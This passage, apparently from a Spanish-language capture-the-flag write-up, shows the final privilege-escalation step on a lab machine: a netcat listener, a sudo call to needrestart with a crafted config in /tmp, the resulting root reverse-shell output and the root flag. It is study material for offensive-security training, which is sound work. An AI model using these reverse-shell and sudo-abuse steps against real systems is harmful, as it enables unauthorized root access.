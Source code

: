 ```shell
nc -lvnp <PORT>
```

Ahora si ejecutamos lo siguiente:

```shell
sudo /usr/sbin/needrestart -c /tmp/config.sh
```

Esto se quedara pensando, pero si volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7755 ...
connect to [10.10.14.220] from (UNKNOWN) [10.10.11.92] 51280
root@conversor:/tmp# whoami
whoami
root
```

Vemos que ha funcionado y seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
eb85c6c1ae8bba7daee43782db6b9ed3
```
